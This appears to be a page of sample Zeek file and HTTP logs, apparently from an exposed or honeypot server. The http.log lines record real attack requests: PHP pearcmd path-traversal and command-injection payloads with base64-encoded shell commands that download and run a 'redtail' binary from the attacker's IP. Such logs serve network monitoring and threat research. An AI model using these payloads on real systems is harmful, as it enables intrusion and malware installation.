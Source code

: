 ````log
#types	time	string	string	addr	port	addr	port	string	count	set[string]	string	string	interval	bool	bool	count	count	count	count	bool	string	string	string	string	string	bool	count
1707063704.959753	F3A3HIjkQYH6OMyK7	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	HTTP	0	MD5,SHA1	text/html	-	0.000206	T	F	9226	9226	0	0	F	-	e46346b5c6dc4eadea606c6e19a210ce	f05cf66a6f0c476bc90874bb957b6b08ddff4729	-	-	-	-
1707063705.124241	FbyNLg1OYx7BTkAed7	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	HTTP	0	MD5,SHA1	text/html	-	0.000204	T	F	9226	9226	0	0	F	-	e46346b5c6dc4eadea606c6e19a210ce	f05cf66a6f0c476bc90874bb957b6b08ddff4729	-	-	-	-
1707063705.292689	Fixhn74v4kntbaUb3	CfNwpL2eeSGPQyXck	45.95.147.236	47124	172.31.5.68	80	HTTP	0	MD5,SHA1	text/html	-	0.000204	T	F	9226	9226	0	0	F	-	e46346b5c6dc4eadea606c6e19a210ce	f05cf66a6f0c476bc90874bb957b6b08ddff4729	-	-	-	-

````

</details>

---


<details>
<summary>
<h3>Zeek http.log Logs</h3>
</summary>

Here is a sample of the log lines:

````log
#separator \x09
#set_separator	,
#empty_field	(empty)
#unset_field	-
#path	http
#open	2023-12-07-13-38-51
#fields	ts	uid	id.orig_h	id.orig_p	id.resp_h	id.resp_p	trans_depth	method	host	uri	referrer	version	user_agent	origin	request_body_len	response_body_len	status_code	status_msg	info_code	info_msg	tags	username	password	proxied	orig_fuids	orig_filenames	orig_mime_types	resp_fuids	resp_filenames	resp_mime_types	cookie_vars	uri_vars
#types	time	string	addr	port	addr	port	count	string	string	string	string	string	string	string	count	count	count	string	count	string	set[enum]	string	string	set[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]	vector[string]
1701974799.489326	Ch5ENP298iuu5k136g	45.95.147.236	56948	172.31.5.68	8080	1	GET	54.67.87.80:8080	/index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls"));?>+/tmp/ohhellohttpserver.php	-	1.1	Mozilla/5.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	FY0fKQ3LRrgOt4DMe	-	text/html	-	/index.php?lang,+config-create+/,/<?shell_exec(base64_decode("bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls"));?>+/tmp/ohhellohttpserver.php
1701974799.663999	Ch5ENP298iuu5k136g	45.95.147.236	56948	172.31.5.68	8080	2	GET	54.67.87.80:8080	/index.php?lang=../../../../../../../../tmp/ohhellohttpserver	-	1.1	Mozilla/5.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	FVdPH43hM73bZvh3qj	-	text/html	-	/index.php?lang
1701974799.830682	Ch5ENP298iuu5k136g	45.95.147.236	56948	172.31.5.68	8080	3	GET	54.67.87.80:8080	/index.php?s=index/index/index/think_lang/../../extend/pearcmd/pearcmd/index&cmd=echo${IFS}bWtkaXIgLXAgL3RtcC8kKHdob2FtaSkgJiYgY2QgL3RtcC8kKHdob2FtaSk7IHdnZXQgaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IGN1cmwgLU8gaHR0cDovLzQ1Ljk1LjE0Ny4yMzYvZG93bmxvYWQvcmVkdGFpbC54ODZfNjQ7IHJtIC1yZiAucmVkdGFpbDsgbXYgcmVkdGFpbC54ODZfNjQgLnJlZHRhaWw7IGNobW9kICt4IC5yZWR0YWlsOyAuLy5yZWR0YWls|base64${IFS}-d|sh	-	1.1	Mozilla/5.0	-	0	9226	200	OK	-	-	(empty)	-	-	-	-	-	-	FaZ03A1JEO2tJT8THh	-	text/html	-	/index.php?s,cmd
````